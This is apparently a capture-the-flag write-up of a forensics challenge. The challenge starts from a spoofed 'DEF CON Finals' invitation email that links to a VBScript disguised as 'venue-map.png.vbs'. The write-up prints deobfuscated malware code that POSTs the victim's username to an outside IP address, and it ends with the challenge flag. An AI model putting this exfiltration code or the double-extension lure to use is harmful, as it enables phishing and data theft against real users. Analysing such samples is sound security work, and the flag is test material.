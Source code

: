 
# DEF CON Invitation
Given file: eml file.
![[DEFCON_Finals_Invitation.eml]]

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
![[pls.vbs]]

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
`https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed`

`Dim http: Set http = CreateObject("WinHttp.WinHttpRequest.5.1")                Dim url: url = "http://20.106.250.46/sendUserData"                              With http                                                                          Call .Open("POST", url, False)                                                  Call .SetRequestHeader("Content-Type", "application/json")                      Call .Send("{""username"":""" & strUser & """}")                             End With                                                                        res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")`

The second one is a link to download a file named `defcon-flag.png.XORed` which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![[Pasted image 20230827115653.png]]
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`
